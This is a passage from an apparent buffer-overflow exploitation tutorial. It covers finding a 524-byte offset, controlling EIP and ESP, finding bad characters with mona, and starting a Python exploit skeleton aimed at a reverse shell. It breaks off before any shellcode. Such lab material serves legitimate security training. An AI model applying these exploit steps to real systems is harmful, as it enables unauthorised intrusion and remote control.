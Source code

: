     python3 -c 'print("A"*524 + "B"*4+ "C"*250)'

![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXdmljtYJlS0WadlmkXv5xYrxWo9IMNFbhOI9JPcHRCyZz0jaKNKgpI59Q0pKHLfHHP4PO7lcFLCweVhGhrYXpceSOzYXnW8-qS_rl3qe1V75NGOOMdpPCLxevYFY7Fx-TEnoR3khJtHBFpgikyQhR_EFQQS?key=7yZZI6nZ3Oixa1gtoznlDg)
![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXd8o3saVVb6_M9MxHkE9YulLeI7c8CFCRDy1UpkHqaWYwcGwjZoeD68CvucyvAe43Kaq2_y9XFsm0-OtFpUBpWN9hMYHd6VqwxKkOfoO0kJoYhwaOV5DM0t45I2NVSnMOgebuhe8L8yN2n9KyytallKuse0?key=7yZZI6nZ3Oixa1gtoznlDg)

as we can see, the entered c's go to our ESP
![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXfns4A-0BEQtZl1s42J_g_XT60M5YnuAMyxRPP3CNAQopESiYAaiG7eKsPwAjIj2Qf5WVwwC1k9yCNjDXyW7EpocaVj-z4VyNbrSgRzuVBKGuAiDoDImSjSugpNLAJauMKl5oyLaxO8XPC29PSZ4h5J14Wb?key=7yZZI6nZ3Oixa1gtoznlDg)
## Badchars

Now we want to know which characters are not supported by our binary, so that we can generate the correct instructions to access a reverse shell. 

### Mona
We set our working directory

    !mona config -set workingFolder <directory>%p

![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXdtD-7Hba_NLM6lhh0jYKB-Tm-wEdKXeEjFlxHTVeXqlwUs88F4akOoPmhdYZghjzkw-MmbE_n_AcNqEVaBEyReyLcTyrqEW51knFM_viNHn9KIzBQARs3P7aTC2NdBZiV2pcFd3wqUKRMNueuqb2PUq1md?key=7yZZI6nZ3Oixa1gtoznlDg)

We generate the characters, except for the null character

    !mona bytearray -cpb "\x00"

![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXdXE94m8HdQbCK6z-j6ScQhF4OtX4IOlxdtOOCbb4Zj2vv_SryQe08DNBw13QfpYq3f6dO_D33cWW9A8LOkh22uV5n6lEvehvJpsXgey-mTvshkb2p1Tm-r2rOVubIDWezqXJef7DU7GaumX4tK2gwvARI?key=7yZZI6nZ3Oixa1gtoznlDg)

This generates a .txt file with the badchards generated, we are going to put them in a python script that we will later modify to obtain our reverse shell

But first we must share this file to our Kali machine, where we will create the exploit. 

![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXefZdtGrDtMvSMtOa7vJjggze-gdozTwe-Kz0xQBOH56D42z_NU0W8qvlSRfTOfBW6hMCpDhWYwnsNIzcE0KRsaJVrQEf6WOs_8_4-fkGxFsYRvk3H1XR63raS5332SsEdQn4lNJxE8rfQE1uEvi-_jFehR?key=7yZZI6nZ3Oixa1gtoznlDg)

we create our `exploit.py` where we will have the offset obtained and we will pass our badchars 

### Python exploit initial

    #!/usr/bin/python3
    
    import socket
    from struct import pack
    
    offset = 524
    
    before_eip = b"A"*offset
    eip = b"B"*4
    
    
    badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    